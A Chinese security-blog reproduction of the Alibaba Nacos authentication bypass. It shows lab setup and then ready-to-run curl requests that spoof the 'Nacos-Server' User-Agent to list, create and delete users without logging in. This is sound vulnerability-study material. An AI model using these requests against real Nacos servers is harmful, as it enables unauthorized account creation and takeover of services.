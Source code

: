 Alibaba Nacos权限认证绕过漏洞复现

[东塔网络安全学院](https://www.freebuf.com/author/东塔安全学院) 2021-02-20 11:12:06 417337 1

**0x0****0****简介**
==================

Nacos 致力于帮助您发现、配置和管理微服务。Nacos 提供了一组简单易用的特性集，帮助您快速实现动态服务发现、服务配置、服务元数据及流量管理。

**0x01漏洞概述**
============

Nacos官方在github发布的issue中披露Alibaba Nacos 存在一个由于不当处理User-Agent导致的认证绕过漏洞。通过该漏洞，攻击者可以进行任意操作，包括创建新用户并进行登录后操作。

**0x02影响版本**
============

Nacos <= 2.0.0-ALPHA.1

**0x03环境搭建**
============

1、在Nacos的GitHub项目地址下载nacos2.0.0-ALPHA.1版本的，下载地址：

wget https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1

![](https://image.3001.net/images/20210220/1613790612_60307d9407294b8d380d5.png!small)

2.解压下载的安装，进入bin目录运行启动 //启动需要java8环境

tar -zxvf nacos-server-2.0.0-ALPHA.1.tar.gz

cd nacos/bin

./startup.sh -m standalone

![](https://image.3001.net/images/20210220/1613790619_60307d9b892dbfec37619.png!small)

3、在浏览访问http://your-ip:8488/nacos，搭建成功 //默认账号密码为：nacos/nacos

![](https://image.3001.net/images/20210220/1613790623_60307d9f80efa9269f0ea.png!small)

**0x04漏洞复现**
============

1、在url处添加访问一下网址即可查看到用户列表

```bash
curl  -X  GET  -w  '\n'  -s  -A  'Nacos-Server'  'http://IP:8848/nacos/v1/auth/users/?pageNo=1&pageSize=100'  |  jq
```

/nacos/v1/auth/users?pageNo=1&pageSize=100

![](https://image.3001.net/images/20210220/1613790627_60307da3de496b2d2ca0a.png!small)

2、访问以下链接并使用burp抓包，然后把get请求改为post，修改User-Agent为Nacos-Server

http://your-ip:8848/nacos/v1/auth/users

![](https://image.3001.net/images/20210220/1613790631_60307da78725fc3c4c0fd.png!small)

3、构造数据包添加一个demo用户，然后发送POST请求，返回为200，表示创建用户成功

```bash
curl -X POST -w '\n' -s -A 'Nacos-Server' 'http://IP:8848/nacos/v1/auth/users?username=test&password=test' | jq
```

Uri: /nacos/v1/auth/users

Method: POST

Body: username=demo&password=demo

![](https://image.3001.net/images/20210220/1613790635_60307daba44188690e625.png!small)

4、回到登录界面，使用添加的账号密码进行登录，可以看到登录成功

![](https://image.3001.net/images/20210220/1613790639_60307dafa6c928989671b.png!small)

5、删除用户

```bash
curl -X DELETE -w '\n' -s -A 'Nacos-Server' -d 'username=test' 'http://IP:8848/nacos/v1/auth/users' | jq
```

https://labs.do-ta.com

本文作者：东塔网络安全学院， 转载请注明来自[FreeBuf.COM](https://www.freebuf.com)
